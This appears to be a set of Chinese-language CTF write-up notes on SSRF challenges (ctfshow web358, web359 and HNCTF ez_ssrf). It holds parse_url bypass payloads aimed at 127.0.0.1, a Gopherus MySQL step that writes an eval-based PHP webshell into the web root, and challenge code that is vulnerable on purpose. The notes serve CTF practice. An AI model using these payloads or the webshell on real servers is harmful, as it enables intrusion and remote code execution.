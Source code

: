 ```php
```

在自己服务器上写一个302跳转就好了

### parse_url

web358

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

以`http://ctf.`开头,以`show`结尾

`url=http://ctf.@127.0.0.1/flag.php#show`
`url=http://ctf.@127.0.0.1/flag.php?show`

### gopher

web359

```php
docker run -it -v /Users/dionysus/CTF/Tools/Gopherus/:/app python:2.7 bash
cd /app
python2 .\gopherus.py --exploit mysql

username:root
写入一句话木马
select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/1.php';
```

对`_`后的内容进行url编码

## fsockopen

[HNCTF 2022 WEEK2]ez_ssrf

```php
 <?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
    die();
}
else {
    fwrite($fp,$data);
    while(!feof($data))
    {
        echo fgets($fp,128);
    }
    fclose($fp);
}
```

